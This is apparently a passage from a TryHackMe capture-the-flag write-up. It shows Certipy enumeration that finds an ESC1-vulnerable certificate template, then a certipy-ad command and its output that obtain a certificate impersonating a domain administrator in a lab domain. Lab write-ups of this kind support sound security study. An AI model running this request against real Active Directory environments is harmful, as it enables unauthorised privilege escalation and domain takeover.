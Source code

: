```
    Certificate Authorities             : thm-LABYRINTH-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Domain Computers
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Authenticated Users
      Object Control Permissions
        Owner                           : THM.LOCAL\Administrator
        Write Owner Principals          : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
        Write Dacl Principals           : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
        Write Property Principals       : THM.LOCAL\Domain Admins
                                          THM.LOCAL\Enterprise Admins
                                          THM.LOCAL\Administrator
    [!] Vulnerabilities
      ESC1                              : 'THM.LOCAL\\Domain Computers' and 'THM.LOCAL\\Authenticated Users' can enroll, enrollee supplies subject and template allows client authentication
```



With the help of this [blog](https://redfoxsec.com/blog/exploiting-misconfigured-active-directory-certificate-template-esc1/) from **Redfox**, was able to request a certificate for the domain admin user `BRADLEY_ORTIZ@thm.local`.


```bash
❯ certipy-ad req -dc-ip 10.10.197.194 -u susanna_mcknight@thm.local -p '**********' -ca thm-LABYRINTH-CA -target labyrinth.thm.local -template ServerAuth -upn BRADLEY_ORTIZ@thm.local -dns labyrinth.thm.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 25
[*] Got certificate with multiple identifications
    UPN: 'BRADLEY_ORTIZ@thm.local'
    DNS Host Name: 'labyrinth.thm.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'bradley_ortiz_labyrinth.pfx'
```
